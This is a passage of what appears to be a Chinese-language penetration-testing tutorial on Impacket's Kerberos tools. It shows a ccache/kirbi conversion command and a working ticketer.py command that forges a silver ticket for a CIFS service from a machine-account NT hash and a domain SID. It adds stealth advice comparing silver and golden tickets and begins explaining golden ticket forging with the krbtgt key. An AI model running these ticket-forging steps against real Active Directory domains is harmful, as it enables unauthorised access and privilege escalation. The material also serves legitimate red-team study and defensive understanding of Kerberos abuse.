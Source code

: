 参考资料：

[https://github.com/GhostPack/Rubeus/pull/137](https://github.com/GhostPack/Rubeus/pull/137)

### ticketConverter.py

不需要认证，因为这个脚本是在 ccache 和 kirbi 格式中互相转换用的脚本。

#### 常用命令

将 ccache 转换为 kirbi，交换位置就是 kirbi 转换为 ccache

```bash
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
```

### ticketer.py

可使用密码认证、hash 认证

这个脚本主要拿来伪造各种服务票据，例如银票据、金票据、钻石票据、蓝宝石票据。

注意 2021 年 11 月更新之后，如果用户名在 AD 域中不存在，则票据会被拒绝。

#### 常用命令

**银票伪造**

银票因为不需要与 DC 通信，所以比金票更加隐蔽。但是银票只能对伪造的服务有效，且会随着服务账户密码的修改而失效。

使用 win-7$的机器账户的 hash`96dd976cc094ca1ddb2f06476fb61eb6`伪造`cifs/win-7`的服务票据，使用票据的用户是根本不存在的 qqq 或者存在的任意用户。

```bash
py -3 .\ticketer.py -spn cifs/win-7 -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
```

[![](assets/1702372846-a4c9bd9fb1386102d5670096827279af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123644-9943f9fe-6bb1-1.png)

**金票伪造**

使用 krbtgt 的密钥伪造 TGT 中的 PAC 的权限，证明任意用户属于特权组。然后通过伪造了 PAC 的 TGT 换 ST，从而获得任意服务的权限。金票据因为需要和 DC 进行交互，所以建议在域内使用，域外通过代理使用有时候会换不到 ST。
